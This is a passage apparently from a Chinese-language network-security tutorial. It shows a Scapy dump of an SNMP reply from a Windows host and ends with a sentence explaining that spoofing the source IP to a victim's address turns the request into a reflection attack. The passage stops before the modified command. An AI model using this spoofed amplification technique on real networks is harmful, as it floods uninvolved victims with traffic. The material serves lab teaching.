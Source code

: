 ```
<IP  version=4L ihl=5L tos=0x0 len=1500 id=14170 flags=MF frag=0L ttl=128 proto=udp chksum=0x3c30 src=172.16.36.134 dst=172.16.36.224 options=[] |<UDP  sport=snmp dport=snmp len=2162 chksum=0xd961 |<Raw  load='0\x82\ x08f\x02\x01\x01\x04\x06public\xa2\x82\x08W\x02\x01\x00\x02\x01\x00\ x02\x01\x000\x82\x08J0\x81\x8b\x06\x08+\x06\x01\x02\x01\x01\x01\x00\ x04\x7fHardware: x86 Family 6 Model 58 Stepping 9 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)0\x11\ x06\t+\x06\x01\x02\x01\x19\x01\x01\x00C\x04\x00\xa3i\xad0\x18\x06\x08+\ x06\x01\x02\x01\x01\x02\x00\x06\x0c+\x06\x01\x04\x01\x827\x01\x01\x03\ x01\x010\x15\x06\t+\x06\x01\x02\x01\x19\x01\x02\x00\x04\x08\x07\xde\x02\ x19\t\x08!\x010\x0f\x06\x08+\x06\x01\x02\x01\x01\x03\x00C\x03t\x99\x180\ x0e\x06\t+\x06\x01\x02\x01\x19\x01\x03\x00\x02\x01\x000\x0c\x06\x08+\ x06\x01\x02\x01\x01\x04\x00\x04\x000\r\x06\t+\x06\x01\x02\x01\x19\x01\ x04\x00\x04\x000\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04\x0fDEMO72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x020\x0c\x06\ x08+\x06\x01\x02\x01\x01\x06\x00\x04\x000\x0e\x06\t+\x06\x01\x02\x01\ x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00\x02\x01L0\ x0e\x06\t+\x06\x01\x02\x01\x19\x01\x07\x00\x02\x01\x000\r\x06\x08+\x06\ x01\x02\x01\x02\x01\x00\x02\x01\x020\x10\x06\t+\x06\x01\x02\x01\x19\x02\ x02\x00\x02\x03\x1f\xfd\xf00\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x01\ x01\x02\x01\x010\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x01\ x02\x01\x010\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x01\x02\x02\x01\x020\ x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x02\x02\x01\x020(\x06\ n+\x06\x01\x02\x01\x02\x02\x01\x02\x01\x04\x1aMS TCP Loopback interface\ x000\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x01\x03\x02\x01\x030P\ x06\n+\x06\x01\x02\x01\x02\x02\x01\x02\x02\x04BAMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport\x000\x10\x06\x0b+\x06\x01\ x02\x01\x19\x02\x03\x01\x01\x04\x02\x01\x040\x0f\x06\n+\x06\x01\x02\x01\ x02\x02\x01\x03\x01\x02\x01\x180\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\ x03\x01\x01\x05\x02\x01\x050\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x03\ x02\x02\x01\x060\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x01\ x06\t+\x06\x01\x02\x01\x19\x02\x01\x050\x10\x06\n+\x06\x01\x02\x01\x02\ x02\x01\x04\x01\x02\x02\x05\xf00\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\ x03\x01\x02\x02\x06\t+\x06\x01\x02\x01\x19\x02\x01\x040\x10\x06\n+\x06\ x01\x02\x01\x02\x02\x01\x04\x02\x02\x02\x05\xdc0\x18\x06\x0b+\x06\x01\ x02\x01\x19\x02\x03\x01\x02\x03\x06\t+\x06\x01\x02\x01\x19\x02\x01\x070\ x12\x06\n+\x06\x01\x02\x01\x02\x02\x01\x05\x01B\x04\x00\x98\x96\x800\ x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x04\x06\t+\x06\x01\x02\ x01\x19\x02\x01\x030\x12\x06\n+\x06\x01\x02\x01\x02\x02\x01\x05\x02B\ x04;\x9a\xca\x000\x18\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x02\x05\ x06\t+\x06\x01\x02\x01\x19\x02\x01\x020\x0e\x06\n+\x06\x01\x02\x01\x02\ x02\x01\x06\x01\x04\x000\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\ x03\x01\x04\x03A:\\0\x14\x06\n+\x06\x01\x02\x01\x02\x02\x01\x06\x02\x04\ x06\x00\x0c)\x18\x11\xfb01\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x02\x04"C:\\ Label:  Serial Number 5838200b0\x0f\x06\n+\x06\x01\x02\x01\ x02\x02\x01\x07\x01\x02\x01\x010\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\ x03\x01\x03\x03\x04\x03D:\\0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x07\ x02\x02\x01\x010\x1d\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x04\ x04\x0eVirtual Memory0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x08\x01\ x02\x01\x010\x1e\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x03\x05\x04\ x0fPhysical Memory0\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x08\x02\x02\ x01\x010\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\x01\x02\x01\ x000\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\t\x01C\x01\x000\x11\x06\x0b+\ x06\x01\x02\x01\x19\x02\x03\x01\x04\x02\x02\x02\x10\x000\x11\x06\n+\x06\ x01\x02\x01\x02\x02\x01\t\x02C\x03m\xbb00\x10\x06\x0b+\x06\x01\x02\x01\ x19\x02\x03\x01\x04\x03\x02\x01\x000\x12\x06\n+\x06\x01\x02\x01\x02\x02\ x01\n\x01A\x04\x08OB_0\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\ x04\x02\x03\x01\x00\x000\x11\x06\n+\x06\x01\x02\x01\x02\x02\x01\n\x02A\ x03\rIe0\x12\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x04\x05\x02\x03\ x01\x00\x000\x11\x06\n+\x06\x01\x02\x01\x02\x02\x01\x0b\x01A\x03\x13\x14\ xde0\x10\x06\x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\x01\x02\x01\x000\ x10\x06\n+\x06\x01\x02\x01\x02\x02\x01\x0b\x02A\x02\x1e\xc10\x13\x06\ x0b+\x06\x01\x02\x01\x19\x02\x03\x01\x05\x02\x02\x04\x00\x9f\xf6a0\x0f\ x06\n+\x06\x01\x02\x01\x02\x02\x01\x0c\x01A\x01\x000\x10\x06\x0b+\x06\ x01\x02\x01\x19\x02\x03\x01\x05\x03\x02\x01\x00' |>>> 
```

为了实际将此命令用作攻击，源 IP 地址需要更改为目标系统的 IP 地址。 这样，我们应该能够将载荷重定向给那个受害者。 这可以通过将 IP `src`值更改为目标 IP 地址的字符串来完成：
